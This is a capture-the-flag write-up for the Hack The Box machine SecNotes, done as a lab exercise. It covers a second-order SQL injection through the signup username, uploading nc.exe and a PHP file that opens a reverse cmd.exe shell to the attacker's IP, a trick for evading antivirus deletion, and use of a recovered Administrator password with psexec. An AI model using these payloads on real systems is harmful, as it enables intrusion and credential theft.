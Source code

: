 # SecNotes [HTB](https://app.hackthebox.com/machines/SecNotes)
![secnotes-01]()

## Recon

Lets scan the target with `nmap`:

`nmap -sC -sV -p- -A 10.129.102.215 -oN nmap.result`

![nmap-res-02]()

We have the following:

+ An IIS web server on ports 80 and 8808.
+ An SMB server on port 445.


We can see the server on port 80 is a login page as the requested resource was `login.php`.
We should take a look into it and see if we can break it, but maybe we can find credentials 
in the SMB first, perhaps its misconfigured. 


### SMB 445


Lets try gathering user inforamtion with a null session using `crackmapexec`.

`crackmapexec smb 10.129.102.215 -u '' -p '' --users`

![crackmapexec-null-fail-03]()


The target seems to be running Windows 10, null sessions are not allowed though. We wont get in
without credetials. Lets try the IPC$ share: 

`smbclient -U '%' -N \\\\10.129.102.215\\IPC$`


![smbclient-null-fail-04]()


Seems like the SMB is not the way forward at the moment. Lets take a look at the IIS server. 



### IIS 80 


Lets start by adding `secnotes.htb` to our `/etc/hosts` file:

![hosts-05]()


Lets open our browser and navigate towards `http://secnotes.htb/`:

![login-form-06]()


We are prompted for credentials, we also have a signup form. Lets try a few diffrent payloads for the login page. Maybe default credentials like `admin:admin`?, simple SQLi payloads like `' OR 1=1;--`: 

![login-fail-07]()


Maybe there is hidden content somewhere, lets try directory busting:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3
-medium.txt:FUZZ -u http://http://secnotes.htb/FUZZ`

![ffuf-fail-08]()


This yielded nothing. lets try subdomain enumeration? 

`wfuzz -c -f sub-fighter -Z -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://secnotes.htb' -H 'Host: FUZZ.secnotes.htb' --hw 0`

![wfuzz-fail-09]()


We have zero leads at the moment. Lets create an account and see where this leads us.

![create-account-10]()


We get redirected to a home page: 

![home-page-11]()


I think the message at the top is a hint towards an indirect object reference vulnerability.
We also get a possible username on the machine in `tyler`.


Lets add a note:

![add-note-12]()

 
You are presented with the note in our home page, and we have a button to delete the note:

![del-note-13]()


It's a link to `/home.php?action=delete&id=11"`, we can see this more clearly in Burp:

![burp-14]()


But the `action` parameter is for `delete`, and we want to see other user's notes, 
not delete them. 

I've tried to hunt down a an IDOR vulenrability with diffrent arguments 
to both URL parameters, we either get a `200` or `302` repsonse with no meaningful progreess. 

I've created another account, trying to play around with the other user's notes, but that 
didnt lead anywhere. 

Then i decided to look for SQLi injection in the login form, i used a few manual payloads, 
as well as `sqlmap`, but that failed. 

Then i noticed that, the username we give when signing up, is displayed on our home page
quite frequatnly, and it seems that the target is using some sort of database to load these 
notes from based on their ID. So maybe the target is using our username to load our notes 
when we login. 

What if we create an account with an SQL statement as the username to load all notes in the 
database? for example `' OR 1 OR'`:

![malicios-login-15]()


Now when we login we can see all the notes in the database: 

![all-notes-16]()


Looks like credetials for an SMB share. Lets try them out:

![smb-conn-17]()


It looks like the root of the IIS server on port 8808, Can we write files to this share? 

![upload-test-18]()


Yes we can. Next logical step is to upload a reverse shell script. At first i tried `.aspx`,
but this failed with a `404`. So i tried PHP instead which did work, but i get disconnected 
every time after a few seconds, probably an AV. It also removes whatever we upload to the SMB.


After playing around with a few different reverse shell strategies, I've noticed that if
we name our files as `iisstart`, they wont get deleted regardless of the extension. 
Ive also noteiced that only `php` scripts properly execute from the URL. 

What we can do, is upload a Windows version of `nc`, create a PHP script that executes the `nc`
and connect to our attack machine. Maybe if the reverse shell comes from an `.exe` file the AV
wont crash it. 

The `nc.exe` on Kali is at `/usr/share/windows-resources/binaries/nc.exe`. 

I will rename it to `iisstart.exe` and put it on the SMB share:

![upload-nc-19]()


Now we need a `iisstart.php` script we can trigger via the URL that will execute the `nc`.

```php
<?php
system('iisstart.exe -e cmd.exe 10.10.14.68 9001')
?>
```


Put this on the SMB also: 

![upload-php-20]()


Start the listener `nc -lnvp 9001`. 

Navigate to `http://secnotes.htb:8808/iisstart.php`

And get a shell:

![shell-21]()



## Privilege Escalation

If we take a look at tyler's home directroy, we can see a `bash.lnk`:

![home-dir-22]()


We might have `wsl` on this machine. This is important because with root privileges `wsl` allows
users to create a bind shell on any port (no elevation needed).


Lets find the `bash` binary on the system:

`where /R c:\windows bash.exe`


![bash-location-23]()


Lets execute it, get into a shell, and use `python -c 'import pty; pty.spawn("/bin/sh")'` to 
spwan a TTY shell:

![bash-tty-24]()



If we simply run `history` to try and snatch quick wins: 

![history-25]()


Looks like the Administrator's password. Lets try `psexec`:

`impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.189.209`


![root-25]()
